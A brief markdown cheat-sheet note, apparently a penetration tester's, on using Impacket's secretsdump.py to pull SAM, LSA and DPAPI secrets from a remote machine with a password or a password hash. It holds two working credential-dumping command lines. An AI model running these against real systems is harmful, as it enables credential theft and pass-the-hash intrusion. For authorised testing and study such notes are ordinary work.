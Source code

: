 This is for dumping secrets on a machine
- `secretsdump.py domain.tld/user:'password'@IP`
- this will dump out as much as it can dump
	- SAM
	- LSA
	- DPAPI
Can also do with a hash
- `secretsdump.py user@IP -hashes hash`
- dumps all the same stuff, just a different way to get on